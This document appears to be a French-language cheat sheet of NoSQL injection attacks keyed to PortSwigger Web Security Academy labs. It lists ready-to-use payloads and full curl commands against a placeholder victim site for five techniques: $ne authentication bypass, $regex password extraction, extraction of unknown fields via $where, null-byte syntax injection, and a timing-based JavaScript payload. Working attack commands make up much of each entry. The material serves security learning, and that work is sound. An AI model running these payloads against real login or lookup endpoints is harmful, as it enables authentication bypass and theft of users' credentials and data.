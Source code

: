 # NoSql

1. Type / Lab : Exploiting NoSQL operator injection to bypass authentication  
  - Payload d’attaque neutre (exemple brut) : username=`{"$ne":""}` et password=`{"$ne":""}`  
  - Commande d’attaque (exemple complet) :  
    curl -X POST -d 'username={"$ne":""}&password={"$ne":""}' https://site-victime.net/login  
  - Commande d’analyse (exemple complet) :  
    Observer si la connexion est acceptée sans identifiants valides (réponse HTTP 200, accès à l’interface administrateur).  
  - Élément d’analyse détaillé : Vérifier si l’API transmet directement les objets reçus à la requête MongoDB, permettant à l’opérateur `$ne` de matcher tous les utilisateurs et de contourner l’authentification.  
  - Méthodologie détaillée de découverte : Injecter des opérateurs MongoDB (`$ne`, `$regex`, etc.) dans les champs d’entrée, observer si des accès non autorisés sont accordés.  
  - Source : https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-bypass-authentication

2. Type / Lab : Exploiting NoSQL injection to extract data  
  - Payload d’attaque neutre (exemple brut) : username=`administrator` et password=`{"$regex":".*"}`  
  - Commande d’attaque (exemple complet) :  
    curl -X POST -d 'username=administrator&password={"$regex":".*"}' https://site-victime.net/login  
  - Commande d’analyse (exemple complet) :  
    Observer si la réponse retourne des informations inattendues ou permet de deviner le mot de passe de l’administrateur (ex : affichage du mot de passe ou d’un message d’erreur différent).  
  - Élément d’analyse détaillé : Détecter si l’application accepte des opérateurs MongoDB dans les paramètres et permet d’élargir les résultats ou d’extraire des données sensibles.  
  - Méthodologie détaillée de découverte : Injecter des opérateurs comme `$regex`, `$where`, `$gt` dans les champs, observer si la réponse contient plus d’informations que prévu ou si des données sont exfiltrées.  
  - Source : https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-data

3. Type / Lab : Exploiting NoSQL operator injection to extract unknown fields  
  - Payload d’attaque neutre (exemple brut) : username=`carlos` et injection d’opérateurs pour deviner le nom ou la valeur de champs inconnus (ex : `{"$where":"this.secret!=null"}`)  
  - Commande d’attaque (exemple complet) :  
    curl -X POST -d 'username=carlos&field={"$ne":null}' https://site-victime.net/lookup  
  - Commande d’analyse (exemple complet) :  
    Observer si la réponse retourne des champs inattendus ou permet d’identifier de nouveaux champs à exfiltrer (ex : token de reset, données cachées).  
  - Élément d’analyse détaillé : Détecter si l’application permet d’injecter des opérateurs pour révéler ou extraire des champs non documentés ou inconnus.  
  - Méthodologie détaillée de découverte : Injecter des opérateurs dans différents champs, observer les variations de réponse, puis affiner pour deviner ou exfiltrer des champs inconnus.  
  - Source : https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-unknown-fields

4. Type / Lab : Exploiting NoSQL syntax injection (syntaxe, fuzzing, null byte)  
  - Payload d’attaque neutre (exemple brut) : Ajout d’un null byte ou d’un caractère spécial dans un paramètre (ex : category=`fizzy'%00`)  
  - Commande d’attaque (exemple complet) :  
    curl "https://site-victime.net/product/lookup?category=fizzy'%00"  
  - Commande d’analyse (exemple complet) :  
    Observer si la requête retourne des produits non publiés ou si des conditions de la requête sont ignorées après le null byte.  
  - Élément d’analyse détaillé : Détecter si l’injection de caractères spéciaux ou de null byte permet de manipuler la syntaxe de la requête et d’accéder à des données non prévues.  
  - Méthodologie détaillée de découverte : Injecter des caractères spéciaux ou des null bytes dans différents paramètres, observer les changements de comportement ou d’accès aux données.  
  - Source : https://portswigger.net/web-security/nosql-injection

5. Type / Lab : Exploiting NoSQL injection via timing-based payloads  
  - Payload d’attaque neutre (exemple brut) : username=`admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password==="a") && waitTill > new Date()){};}(this)+'`  
  - Commande d’attaque (exemple complet) :  
    curl -X POST -d 'username=admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password==="a") && waitTill > new Date()){};}(this)+'&password=test' https://site-victime.net/login  
  - Commande d’analyse (exemple complet) :  
    Comparer le temps de réponse du serveur selon la valeur injectée, pour détecter une exécution conditionnelle côté base de données.  
  - Élément d’analyse détaillé : Détecter si l’application exécute du code JavaScript côté base, permettant des attaques avancées (extraction caractère par caractère, DoS, etc.).  
  - Méthodologie détaillée de découverte : Injecter des payloads de temporisation dans les champs, mesurer les délais de réponse pour confirmer l’exécution du code injecté.  
  - Source : https://portswigger.net/web-security/nosql-injection

---

